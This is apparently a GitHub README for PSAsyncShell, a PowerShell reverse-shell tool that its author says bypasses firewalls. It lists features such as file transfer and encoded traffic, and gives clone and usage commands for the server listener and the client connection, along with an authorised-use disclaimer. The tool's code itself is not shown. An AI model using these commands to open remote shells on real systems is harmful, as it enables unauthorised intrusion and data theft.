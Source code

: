 <p align="center"><img width=600 alt="PSAsyncShell" src="https://github.com/JoelGMSec/PSAsyncShell/blob/main/PSAsyncShell.png"></p>

# PSAsyncShell
**PSAsyncShell** is an Asynchronous TCP Reverse Shell written in pure PowerShell. 

Unlike other reverse shells, all the communication and execution flow is done asynchronously, allowing to bypass some firewalls and some countermeasures against this kind of remote connections.

Additionally, this tool features command history, screen wiping, file uploading and downloading, information splitting through chunks and reverse Base64 URL encoded traffic.


# Requirements
- PowerShell 4.0 or greater


# Download
It is recommended to clone the complete repository or download the zip file.
You can do this by running the following command:
```
git clone https://github.com/JoelGMSec/PSAsyncShell
```


# Usage
```
.\PSAsyncShell.ps1 -h

  ____  ____    _                         ____  _          _ _
 |  _ \/ ___|  / \   ___ _   _ _ __   ___/ ___|| |__   ___| | |
 | |_) \___ \ / _ \ / __| | | | '_ \ / __\___ \| '_ \ / _ \ | |
 |  __/ ___) / ___ \\__ \ |_| | | | | (__ ___) | | | |  __/ | |
 |_|   |____/_/   \_\___/\__, |_| |_|\___|____/|_| |_|\___|_|_|
                         |___/

  ---------------------- by @JoelGMSec -----------------------

 Info:  This tool helps you to get a remote shell
        over asynchronous TCP to bypass firewalls

 Usage: .\PSAsyncShell.ps1 -s -p listen_port
          Listen for a new connection from the client

        .\PSAsyncShell.ps1 -c server_ip server_port
          Connect the client to a PSAsyncShell server

 Warning: All info betwen parts will be sent unencrypted
          Download & Upload functions don't use MultiPart

```

### The detailed guide of use can be found at the following link:

https://darkbyte.net/psasyncshell-bypasseando-firewalls-con-una-shell-tcp-asincrona


# License
This project is licensed under the GNU 3.0 license - see the LICENSE file for more details.


# Credits and Acknowledgments
This tool has been created and designed from scratch by Joel Gámez Molina // @JoelGMSec


# Contact
This software does not offer any kind of guarantee. Its use is exclusive for educational environments and / or security audits with the corresponding consent of the client. I am not responsible for its misuse or for any possible damage caused by it.

For more information, you can find me on Twitter as [@JoelGMSec](https://twitter.com/JoelGMSec) and on my blog [darkbyte.net](https://darkbyte.net).


# Support
You can support my work buying me a coffee:

[<img width=250 alt="buymeacoffe" src="https://cdn.buymeacoffee.com/buttons/v2/default-blue.png">](https://www.buymeacoffee.com/joelgmsec)

